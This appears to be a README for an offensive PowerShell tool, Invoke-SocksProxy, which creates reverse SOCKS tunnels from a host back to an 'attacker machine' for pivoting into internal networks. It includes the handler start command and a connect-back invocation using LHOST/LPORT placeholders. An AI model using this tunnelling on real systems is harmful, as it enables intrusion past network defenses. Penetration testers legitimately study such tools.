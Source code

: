 # Invoke-SocksProxy
Creates a local or "reverse" Socks proxy using powershell. The local proxy is a simple Socks 4/5 proxy.

The reverse proxy creates a tcp tunnel by initiating outbond SSL connections that can go through the system's proxy. The tunnel can then be used as a socks proxy on the remote host to pivot into the local host's network.

Merged the script from tokyoneon and from p3nt4 so it works. *Note* Firewall might be on high ports will most likely not work. Run the script, and copy the SHA1 cert fingerprint and past in the the script:
```
sudo python2.7 ReverseSocksProxyHandler.py
```

# Example
Connect back to ProxyHandler on attacker machine with certificate fingerprint.
```
Invoke-ReverseSocksProxy -remotePort LPORT -remoteHost LHOST -certFingerprint 'SHA_FINGERPRINT'
```
